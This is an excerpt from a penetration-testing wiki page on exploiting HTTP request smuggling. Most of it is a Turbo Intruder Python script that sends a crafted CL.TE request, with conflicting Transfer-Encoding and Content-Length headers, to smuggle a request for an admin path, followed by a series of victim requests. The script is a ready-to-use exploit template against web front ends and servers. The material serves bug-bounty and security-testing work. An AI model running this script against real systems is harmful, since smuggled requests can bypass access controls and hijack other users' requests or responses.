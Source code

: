 ### Weaponizing HTTP Request Smuggling with HTTP Response Desynchronisation

Have you found some HTTP Request Smuggling vulnerability and you don't know how to exploit it. Try these other method of exploitation:

{% content-ref url="../http-response-smuggling-desync.md" %}
[http-response-smuggling-desync.md](../http-response-smuggling-desync.md)
{% endcontent-ref %}

## Turbo intruder scripts

### CL.TE

From [https://hipotermia.pw/bb/http-desync-idor](https://hipotermia.pw/bb/http-desync-idor)

```python
def queueRequests(target, wordlists):

    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=1,
                           resumeSSL=False,
                           timeout=10,
                           pipeline=False,
                           maxRetriesPerRequest=0,
                           engine=Engine.THREADED,
                           )
    engine.start()

    attack = '''POST / HTTP/1.1
 Transfer-Encoding: chunked
Host: xxx.com
Content-Length: 35
Foo: bar

0

GET /admin7 HTTP/1.1
X-Foo: k'''

    engine.queue(attack)

    victim = '''GET / HTTP/1.1
Host: xxx.com

'''
    for i in range(14):
        engine.queue(victim)
        time.sleep(0.05)

def handleResponse(req, interesting):
    table.add(req)
```
